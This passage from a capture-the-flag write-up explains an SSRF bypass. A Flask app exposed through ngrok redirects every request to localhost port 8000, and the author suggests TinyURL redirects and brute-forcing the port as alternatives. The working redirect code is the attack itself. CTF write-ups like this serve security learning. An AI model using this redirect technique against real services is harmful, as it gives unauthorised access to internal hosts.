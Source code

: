 I have created a simple flask webapp and port forwarded using ngrok. Now when we redirect to ngrok using google URL it should redirect to `localhost` port 8000. For port number I thick we should brute force, since the challenge doesn't have any hints representing the port number. Tiny URL's will also work in this case to redirect to localhost.

#### Using Tiny URL
![](../assets/2024/tfcctf/surfing4.png)


#### Using ngrok

```python
from flask import request,Flask,redirect

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def home():
    if request.method == 'GET':
        return redirect("http://localhost:8000")


if __name__=="__main__":
    app.run(host="0.0.0.0",port="9000",debug=True)

```


